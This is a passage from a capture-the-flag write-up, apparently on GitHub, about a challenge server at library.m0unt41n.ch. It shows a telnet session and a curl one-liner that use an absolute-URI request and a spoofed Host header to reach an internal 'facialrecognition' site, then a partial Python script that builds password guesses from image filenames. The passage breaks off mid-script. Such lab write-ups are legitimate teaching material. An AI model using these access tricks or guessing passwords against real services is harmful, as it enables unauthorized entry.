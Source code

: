     ```
    $ telnet library.m0unt41n.ch 30301
    GET / HTTP/1.1
    Host: 128.140.62.133 
    
    HTTP/1.1 301 Moved Permanently
    ```

    Then, in the same session:

    ```
    GET http://facialrecognition/ HTTP/1.1
    Host: facialrecognition

    HTTP/1.1 200 OK
    Server: nginx/1.18.0 (Ubuntu)
    Date: Sat, 30 Nov 2024 15:39:25 GMT
    Content-Type: text/html; charset=UTF-8
    Transfer-Encoding: chunked
    Connection: keep-alive

    1e3f

    <html>
    (...)
    ```

    ... gets us stuff. Note that `1e3f` is from chunked encoding (as well as
    `0` that ends the response)

*   This can be simplified as
    `curl -v -H "Host: facialrecognition" http://library.m0unt41n.ch:30301`

*   To facilitate further debugging, I added the IP to `/etc/hosts`, which
    allows direct calls:

    ```h
    128.140.62.133   facialrecognition
    ```

    With that, we can open http://facialrecognition:30301/ in the browser.
    That results in an index page with images, that we can download for
    further inspection.

# "Light scanning"

## Filenames as password (FAIL)

With the mention of _"requires light scanning"_, my first thought was to try
using the filenames as password. I generated few variants:

```python
import glob
import re

# List of files
FILES = [ i.split("/")[2] for i in glob.glob("website/resources/*") ]
# Split extensions
FILES_NOEXT = [ i.split(".")[0] for i in FILES ]
# Parts in brackets
IN_BRACKETS = [ re.search(r'\((.*)\)', i).group(1) for i in FILES_NOEXT if "(" in i ]
# Strip parts in brackets
BASE_NAMES = [ re.sub(r'_\(.*', '', i) for i in FILES_NOEXT ]
# Split to individual words
SINGLE_WORDS = " ".join([ re.sub(r'[_()]', " ", i) for i in FILES_NOEXT ]).split(" ")
# Combine all these
WORDS = FILES + FILES_NOEXT + IN_BRACKETS + BASE_NAMES + SINGLE_WORDS
# Add all variants: replace _ with spaces, all-lower, first-caps
```